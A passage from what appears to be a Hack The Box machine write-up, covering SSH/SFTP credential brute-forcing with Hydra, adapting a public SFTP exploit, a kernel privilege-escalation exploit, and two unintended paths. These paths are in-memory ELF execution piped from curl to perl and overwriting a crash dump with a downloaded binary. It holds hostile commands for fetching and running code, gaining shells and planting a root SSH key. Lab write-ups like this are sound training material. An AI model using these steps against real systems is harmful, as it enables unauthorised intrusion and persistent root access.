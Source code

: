 6. **Credential-Based Attack (Hydra on SSH/SFTP)**:
   - Technique: Brute-forcing credentials with Hydra.
   - Step: Use Hydra with the extracted credentials (`hydra -C user_pass.txt ssh://[TARGET-IP] -p 2222`) to attempt SSH login. Identify that the service is SFTP, not SSH, and attempt SFTP login with credentials (e.g., `sftp -P 2222 ftpuser@[TARGET-IP]`).

7. **SFTP Exploit (Privilege Escalation)**:
   - Technique: Exploit development and execution.
   - Step: Identify an SFTP exploit from a full disclosure post. Modify the 64-bit exploit code to work on a 32-bit system by changing `long long` to `int`, `size_t` to `unsigned int`, and adjusting memory addresses. Compile the exploit with appropriate flags and execute it (`./sh_exploit [TARGET-IP] ftpuser`).

8. **Privilege Escalation (Kernel Exploit)**:
   - Technique: Kernel exploit to gain root access.
   - Step: Identify the kernel version (`uname -a`) and search for a matching exploit for Ubuntu Xenial. Compile the kernel exploit (`gcc -o exploit kernel.c`) on a separate system, transfer it to the target via `curl` or Python HTTP server, and execute it to gain root access.

9. **Persistence (Modify LSB Release)**:
   - Technique: System manipulation for exploit compatibility.
   - Step: Modify `/etc/lsb-release` to mimic a vulnerable Ubuntu Xenial version (e.g., change distro name to "Bladerunner") to ensure the kernel exploit works. Recompile and execute the exploit to achieve root.

### Unintended Exploitation Paths
#### 1. In-Memory ELF Execution (Inspired by muBIX)
   - **Technique**: Execute ELF binaries in memory without disk writes, bypassing restrictions like `/tmp` or `/dev/shm`.
   - **Steps**:
     1. **Research and Setup**: Find a blog post on in-memory ELF execution and extract a Perl command to prepare the binary (`elf-prep.sh`).
     2. **Prepare Binary**: Run `bash elf-prep.sh pone` to convert the binary (`pone`) into hex format for in-memory loading.
     3. **Create Loader Script**: Combine `elf_load.pl.head`, `elf_load.pl.body` (hex output), and `elf_load.pl.tail` into `elf_load.pl` to execute the binary in memory.
     4. **Transfer and Execute**: Start a Python HTTP server on the attacker's machine, use `curl [TARGET-IP]/elf_load.pl | perl` on the target to execute the binary, gaining a shell.
     5. **Stabilize Shell**: Modify the exploit to write an SSH key to `/root/.ssh/authorized_keys` for persistent root access (`ssh -i key root@[TARGET-IP] -p 2222`).
     6. **Troubleshooting**: Address sandbox issues (e.g., network restrictions on `ens33` or loopback) by adjusting the exploit code to avoid network dependencies.

#### 2. Crash Dump Exploitation (Hack The Box Forum)
   - **Technique**: Exploit a process crash dump that creates a file with 777 permissions, allowing arbitrary binary execution.
   - **Steps**:
     1. **Identify Vulnerable Process**: Find the SFTP process (`pgrep -u ftpuser -l`) running as the `ftpuser`.
     2. **Trigger Crash Dump**: Send a `SIGSEGV` signal (`kill -11 1681`) to the SFTP process to create a crash dump file (`/lock`) with 777 permissions.
     3. **Overwrite Crash Dump**: Write a malicious ELF binary (e.g., `pone`) to the crash dump file (`curl [TARGET-IP]/pone -o /lock`).
     4. **Execute Binary**: Run the modified crash dump file (`./lock`) to gain a shell.
     5. **Gain Root Access**: Use the shell to achieve root privileges or write an SSH key for persistent access.

